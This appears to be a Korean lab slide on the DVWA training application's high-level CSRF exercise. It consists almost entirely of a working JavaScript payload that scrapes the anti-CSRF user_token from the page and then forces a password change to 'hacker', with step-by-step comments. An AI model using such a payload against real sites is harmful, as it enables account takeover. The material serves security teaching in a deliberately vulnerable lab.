

3-3) CSRF

# Security Level : High
2. 공격 코드
# vim /opt/lampp/htdoc/csrfhigh.js
var xhr;
var dvwa_csrf_url = '/dvwa/vulnerabilities/csrf/';
req1();

//dvwa의 csrf 메뉴 누를때, user토큰을 알아내기 위해서 첫번째 요청을 보내는 함수이다.
function req1() {
        xhr = new XMLHttpRequest();
        //XMLHttpRequest 객체를 생성
        xhr.onreadystatechange = req2;
        //서버로 보낸 요청에 대한 응답을 받았을때 어떤 동작을 할 것인지를 정한다.
        응답을 받은후에는 req2에 짜여진 대로 동작한다.
        xhr.open('GET', dvwa_csrf_url);
        xhr.send();
        //서버로 부터 응답을 받은 후의 동작을 결정 한 후에는 실질적으로 request 하는것
        //요청을 하기 위해서는 request class의 open()과 send() 를 호출해야한다.
}

function req2() {
        if (xhr.readyState === 4 && xhr.status === 200) {
        //readyState 4, status 200은 complete 으로 request에 대한 처리가 끝났으며
        //응답할 준비가 완료된 것을 의미
                var htmltext = xhr.responseText;
                var parser = new DOMParser();
                var htmldoc = parser.parseFromString(htmltext,'text/html');

                var CSRFtoken = htmldoc.getElementsByName("user_token")[0].value;
                //첫번재 요청을 htmldoc으로 변환하여 user_token값을 추출한다.
                alert('Found the token: ' + CSRFtoken);
                //추출한 token값을 화면에 뿌려준다.

                xhr = new XMLHttpRequest();
                xhr.open('GET', dvwa_csrf_url + '?password_new=hacker&password_conf=hacker&Change=Change&user_token=' + CSRFtoken);
                xhr.send();
          //알아낸 토큰으로 get request를 하여 url요청을 해서 패스워드 변경을 시도한다.

        }

}